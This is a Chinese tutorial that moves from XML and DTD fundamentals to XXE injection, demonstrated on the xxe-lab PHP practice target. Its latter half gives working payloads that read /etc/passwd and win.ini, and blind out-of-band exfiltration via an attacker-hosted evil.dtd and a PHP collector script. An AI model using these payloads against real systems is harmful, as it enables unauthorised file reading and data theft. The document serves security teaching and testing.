## 一、XML基础知识

### 1、XML简介：

XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素


XML 和 HTML 为不同的目的而设计：

- XML 被设计用来传输和存储数据，其焦点是数据的内容。
- HTML 被设计用来显示数据，其焦点是数据的外观。

HTML 旨在显示信息，而 XML 旨在传输信息。

### 2、XML 语法

1）XML 声明文件的可选部分，如果存在需要放在文档的第一行

```
<?xml version="1.0" encoding="utf-8"?>
```

2）XML 必须包含根元素，它是所有其他元素的父元素，下面note 是根元素

```
<?xml version="1.0" encoding="UTF-8"?>
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

3）所有的 XML 元素都必须有一个关闭标签，并且标签对大小写敏感

```
<Message>这是错误的</message>
<message>这是错误的
<message>这是正确的</message>
```

4）XML 属性值必须加引号

与 HTML 类似，XML 元素也可拥有属性（名称/值的对）。

在 XML 中，XML 的属性值必须加引号。

```
<note date="12/11/2007">   
<to>Tove</to>
<from>Jani</from>
</note>
```

5）实体引用

在 XML 中，一些字符拥有特殊的意义。

如果您把字符 "<" 放在 XML 元素中，会发生错误，这是因为解析器会把它当作新元素的开始。

这样会产生 XML 错误：

```
<message>if salary < 1000 then</message>
```

可以**实体引用**来代替 "<" 字符

```
<message>if salary &lt; 1000 then</message>
```

在 XML 中，有 5 个预定义的实体引用：

| \&lt;   | <    | less than      |
| ------- | ---- | -------------- |
| \&gt;   | >    | greater than   |
| \&amp;  | &    | ampersand      |
| \&apos; | '    | apostrophe     |
| \&quot; | "    | quotation mark |

6）XML 中的注释

在 XML 中编写注释的语法与 HTML 的语法很相似。

```
<!-- This is a comment -->
```

7）XML 以 LF 存储换行

在 Windows 应用程序中，换行通常以一对字符来存储：回车符（CR）和换行符（LF）。

在 Unix 和 Mac OSX 中，使用 LF 来存储新行。

在旧的 Mac 系统中，使用 CR 来存储新行。

XML 以 LF 存储换行。

8）XML 元素和XML 属性

XML 元素指的是从（且包括）开始标签直到（且包括）结束标签的部分。

XML元素具有属性，类似 HTML。属性（Attribute）提供有关元素的额外信息。


### 3、DTD

#### 3.1、DTD简介

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。

DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

**内部的 DOCTYPE 声明**

```
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend</body>
</note> 
```

以上 DTD 解释如下：

- **!DOCTYPE note** (第二行)定义此文档是 **note** 类型的文档。
- **!ELEMENT note** (第三行)定义 **note** 元素有四个元素："to、from、heading,、body"
- **!ELEMENT to** (第四行)定义 **to** 元素为 "#PCDATA" 类型
- **!ELEMENT from** (第五行)定义 **from** 元素为 "#PCDATA" 类型
- **!ELEMENT heading** (第六行)定义 **heading** 元素为 "#PCDATA" 类型
- **!ELEMENT body** (第七行)定义 **body** 元素为 "#PCDATA" 类型

**外部文档声明**

假如 DTD 位于 XML 源文件的外部，那么它应通过下面的语法被封装在一个 DOCTYPE 定义中：

```
<!DOCTYPE root-element SYSTEM "filename">
```

这个 XML 文档和上面的 XML 文档相同，但是拥有一个外部的 DTD: 

```
<?xml version="1.0"?>
 <!DOCTYPE note SYSTEM "note.dtd">
 <note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
 </note>
```

这是包含 DTD 的 "note.dtd" 文件：

```
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

#### 3.2、xml文档的构建模块

所有的 XML 文档（以及 HTML 文档）均由以下简单的构建模块构成：

元素、属性、实体、PCDATA、CDATA

1）元素

元素是 XML 以及 HTML 文档的主要构建模块。

HTML 元素的例子是 "body" 和 "table"。XML 元素的例子是 "note" 和 "message" 。元素可包含文本、其他元素或者是空的。

```
<body>body text in between</body>
<message>some message in between</message>
```

空的 HTML 元素的例子是 "hr"、"br" 以及 "img"。

在 DTD 中，XML 元素通过元素声明来进行声明。元素声明使用下面的语法：

```
<!ELEMENT element-name category>
 或
 <!ELEMENT element-name (element-content)>
```


2）属性

属性可提供有关元素的额外信息。

属性总是被置于某元素的开始标签中。属性总是以名称/值的形式成对出现的。下面的 "img" 元素拥有关于源文件的额外信息：

```
   
```

元素的名称是 "img"。属性的名称是 "src"。属性的值是 "computer.gif"。由于元素本身为空，它被一个 " /" 关闭。

属性声明使用下列语法：

```
<!ATTLIST element-name attribute-name attribute-type attribute-value>
DTD 实例:
<!ATTLIST payment type CDATA "check">
XML 实例:
<payment type="check" />
```

3）实体

实体是用来定义普通文本的变量。实体引用是对实体的引用。

| 实体引用 | 字符 |
| -------- | ---- |
| &lt;     | <    |
| &gt;     | >    |
| &amp;    | &    |
| &quot;   | "    |
| &apos;   | '    |

 实体又分为一般实体和参数实体
 1，一般实体的声明语法:`<!ENTITY 实体名 "实体内容">`
 引用实体的方式：`&实体名`；
 2，参数实体只能在DTD中使用，参数实体的声明格式： `<!ENTITY % 实体名 "实体内容">`
 引用实体的方式：`%实体名`；

**内部实体声明**

```
语法
<!ENTITY entity-name "entity-value">
实例
DTD 实例:
 <!ENTITY writer "Donald Duck.">
 <!ENTITY copyright "Copyright runoob.com">
XML 实例：
<author>&writer;&copyright;</author>
```

**注意：** 一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;)。

**外部实体声明**

```
语法
<!ENTITY entity-name SYSTEM "URI/URL">
实例
DTD 实例:
 <!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">
 <!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">
XML example:
 <author>&writer;&copyright;</author>
```

4）PCDATA

PCDATA 的意思是被解析的字符数据（parsed character data）。

可把字符数据想象为 XML 元素的开始标签与结束标签之间的文本。

PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

文本中的标签会被当作标记来处理，而实体会被展开。

不过，被解析的字符数据不应当包含任何 &、< 或者 > 字符；需要使用 &amp;、&lt; 以及 &gt; 实体来分别替换它们。

5）CDATA

CDATA 的意思是字符数据（character data）。

CDATA 是不会被解析器解析的文本。在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。

## 二、XXE的攻击与危害

### 1、XXE漏洞原理和危害：

 XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。    

xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

### 2、构建外部实体注入方法

1）直接通过DTD外部实体声明

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY b SYSTEM "file:///etc/passwd/">
]>
<c>&b;</c>
```

2）通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```

DTD文件内容：

```xml-dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

3）通过DTD外部实体声明引入外部实体声明

先写一个外部实体声明，然后引用的是在攻击者服务器上面的外部实体声明

XML内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY %d SYSTEM "http://mark4z5.com/evil.dtd">
    %d;
]>
<c>&b;</c>
```

dtd文件内容：

```xml-dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

**注：外部实体的利用会用到协议如下:**

| LIBXML2 | PHP            | JAVA     | .NET  |
| ------- | -------------- | -------- | ----- |
| file    | file           | http     | file  |
| http    | http           | https    | http  |
| ftp     | ftp            | ftp      | https |
|         | php            | file     | ftp   |
|         | compress.zlib  | jar      |       |
|         | compress.bzip2 | netdoc   |       |
|         | data           | mailto   |       |
|         | glob           | gopher * |       |
|         | phar           |          |       |

### 3、寻找 XML 输入点

甄别那些接受XML作为输入内容的端点。  但是有时候，这些端点可能并不是那么明显(比如，一些仅使用JSON去访问服务的客户端)。在这种情况下，渗透测试人员就必须尝试不同的测试方式，比如修改HTTP的请求方法，修改Content-Type头部字段等等方法，然后看看应用程序的响应，看看程序是否解析了发送的内容，如果解析了，那么则可能有XXE攻击漏洞。

例如：判断wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

例如：从PHP代码层面

存在 `Content-Type：text/xml`, 说明post 的数据包含 XML 格式，如：

```
Copy<forgot><username>admin</username></forgot>
```

可以在请求头中添加 `Content-Type：text/xml`  或 `Content-type:application/xml`，然后构造payload测试是否存在XXE攻击漏洞

### 4、XXE漏洞利用实例

#### 4.1、文件读取（有回显）

[xxe-lab](https://github.com/c0ny1/xxe-lab)的php靶场演示：

**读取文件时无特殊符号**

注意：这里我们要求php版本为5.2，5.3，5.4，因为他们的libxml版本为2.7.7，2.7.8
允许加载外部实体，libxml版本在2.9.1之后，默认是不解析外部实体



我们使用brupsuite抓包看看



判断传输类型是xml，通过post传输的数据。然后看一下返回的响应包



发现，响应包返回的信息中，有username的值admin。

那么我么尝试构造payload来构造外部实体admin处的注入，利用协议读取文件

```
网站在window系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>&xxes;</username><password>admin</password></user>
网站在linux系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///etc/passwd"> ]>
<user><username>&xxes;</username><password>admin</password></user>
```



成功读取c盘下win.in文件

查看靶场doLogin.php源码

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

libxml_disable_entity_loader(false);函数意思就是不禁止外部实体加载；file_get_contents()函数，把整个文件读入一个字符串中。LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件  通过php://input协议获取POST请求数据，然后把数据通过file_get_contents()函数，放在$xmlfile变量中。

**读取文件时有特殊符号**

在读取文件时，文件中包含"<,>,&"等这些特殊符号时，会被xml解析器解析，报错从而导致读取失败

例如尝试创建并读取以下文件

C:\test.txt 内容：`<Baize Sec>`



发现抱错。原因是在 XML 元素中，"<" 和 "&" 是非法的。

"<" 会产生错误，因为解析器会把该字符解释为新元素的开始。

"&" 也会产生错误，因为解析器会把该字符解释为字符实体的开始。

方法一：使用base64编码来读取

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ENTITY xxes SYSTEM "PHP://filter/read=convert.base64-encode/resource=/C:/test.txt"> ]>
<user><username>&xxes;</username><password>admin</password></user>
```



后使用base64解密可得结果

方法二：使用CDATA绕过 

某些文本，比如 JavaScript 代码，包含大量 "<" 或 "&" 字符。为了避免错误，可以将脚本代码定义为 CDATA。CDATA 部分中的所有内容都会被解析器忽略。

CDATA 部分由` "<![CDATA[" 开始，由 "]]>"` 结束。

关于 CDATA 部分的注释：

CDATA 部分不能包含字符串 "]]>"。也不允许嵌套的 CDATA 部分。

标记 CDATA 部分结尾的 "]]>" 不能包含空格或折行。

我们的思路就是把读取的文件放在CDATA中之后再调用，那么构造一个POC如下

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag
[<!ENTITY start
"<![CDATA[<!ENTITY % xxe SYSTEM "file:///c:/test.txt"> ]]>"
>]
% xxe;>
<user><username>&start;</username><password>admin</password></user>
```

发现抱错，因为xml 解析器有个限制：不能在内部 Entity 中引用，“PEReferences forbidden in internal subset in Entity ”指的就是禁止内部参数实体引用。

所以可以搭建第二个服务器，实现调用的外部的dtd文档

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % start "<![CDATA[">
<!ENTITY % go SYSTEM "file:///c:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.220.128/evil.dtd"> %dtd;
]> 
<user><username>&start;</username><password>admin</password></user>
```

```
http://192.168.220.128/evil.dtd
内容：
<!ENTITY all "%start;%go;%end;">
```



#### 4.2、文件读取（无回显）

[xxe-lab](https://github.com/c0ny1/xxe-lab)的php靶场演示：

我们将源码的输出代码注释掉，将错误信息也不显示



```php
增加：
error_reporting(0);                   
注释：
#echo $result;
```

进行运行上面的POC，发现没有回显。



现在很多xxe漏洞都是没有回显的，下面是再没有回显的时候可以的利用方式。

**方法一：**

对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://192.168.220.128/test.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
%remote;
]>
<user><username>&send;</username><password>admin</password></user>
```

在自己的服务器上搭建test.dtd

```xml-dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.220.128/test.php?file=%file;'>">%all;
```

test.php

```php
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

访问时，存在漏洞的服务器会读出`c:/windows/win.ini`内容并且进行base64编码，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。





**方法二：**

思路就是在没有回显的时候，我们将读取的文件带出来，举一个例子就是，我们如果将/etc/passwd文件赋给实体test，那么我们在访问`http://192.168.220.128?%test`时，如果有报错信息可以查看报错信息有没有，还可以查看我们服务器上的日志文件，日志文件会保存/etc/passwd的文件内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://192.168.220.128/evil.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
%remote;
]>
<user><username>&send;</username><password>admin</password></user>
```

evil.dtd的内容，内部的%号要进行实体编码成`&#x25`,因为在evil.dtd的实体中不能有%。

```xml-dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.220.128/?%file;'>">%all;

//<!ENTITY % all ”<!ENTITY &#x25; send SYSTEM ‘http://192.168.220.128/?%file;’>“>%all;
```

